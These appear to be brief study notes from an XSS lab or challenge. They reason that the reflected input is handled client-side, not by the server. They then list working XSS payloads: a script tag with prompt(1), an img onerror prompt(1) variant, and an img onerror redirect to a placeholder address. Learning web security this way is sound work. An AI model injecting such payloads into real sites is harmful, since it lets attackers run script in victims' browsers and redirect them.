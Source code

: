 


user i/p is reflected so maybe it is reflected XSS??

check network tab in dev tools when entering a new item, we dont get a response back which means it is all happening on client side
In reflected XSS we get a response from server after entering an input which can be seen in the network tab

```js
<script>prompt(1)</script>
```
this becomes part of the page but we need something to trigger it

try other payload

```html
<img src onerror="prompt(1)"/>
```

to forward the user to different location

```html
<img src onerror="window.location.href='targetAddress'">
```
targetURL also inside quotes

 
